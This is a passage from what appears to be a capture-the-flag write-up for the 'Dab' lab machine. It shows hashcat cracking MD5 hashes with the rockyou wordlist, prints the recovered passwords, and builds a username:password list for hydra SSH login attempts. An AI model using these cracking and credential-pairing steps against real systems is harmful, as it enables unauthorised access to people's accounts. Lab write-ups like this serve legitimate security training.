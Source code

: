 
#### Crack Hashes

These are simple md5 hashes, and 12 crack with `hashcat` and rockyou:

    
    
    $ hashcat -a 0 -m 0 users-hashes /usr/share/wordlists/rockyou.txt --force -o cracked
    $ hashcat users-hashes --show
    eb95fc1ab8251cf1f8f870e7e4dae54d:megadeth
    fc7992e8952a8ff5000cb7856d8586d2:Princess1
    fe01ce2a7fbac8fafaed7c982a04e229:demo
    2ac9cb7dc02b3c0083eb70898e549b63:Password1
    254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet
    c21f969b5f03d33d43e04f8f136e7682:default
    9731e89f01c1fb943cf0baa6772d2875:piggy
    0ef9c986fad340989647f0001e3555d4:misfits
    5177790ad6df0ea98db41b37b602367c:strength
    6f9ff93a26a118b460c878dc30e17130:monkeyman
    1e0ad2ec7e8c3cc595a9ec2e3762b117:blaster
    0daa6275280be3cf03f9f9c62f9d26d1:lovesucks1
    

## Shell as genevieve

### Organize Usernames / Passwords

Now that I have 12 accounts and passwords, I’ll check if any can be used to
SSH into Dab. 12 is few enough that I could probably just try them by hand.
Still, it’s more fun to automate it a bit.

I’ve got a file with `hash:password`, and another file with json `"username":
"hash"`. I want to have a file with `username:password` so I can run it into
`hydra`. I’ll loop over the hash/password combinations and then use grep to
find the username.

    
    
    root@kali# cat cracked | while read c; do hash=$(echo ${c} | cut -d: -f1); pass=$(echo $c | cut -d: -f2); username=$(grep ${hash} users | cut -d: -f1); echo "${username}:${pass}"; done > user_pass
    
    root@kali# cat user_pass
    wendell:megadeth
    genevieve:Princess1
    demo:demo
    admin:Password1
    d_murphy:hacktheplanet
    default:default
    abbigail:piggy
    aglae:misfits
    irma:strength
    ona:monkeyman
    alec:blaster
    rick:lovesucks1
    
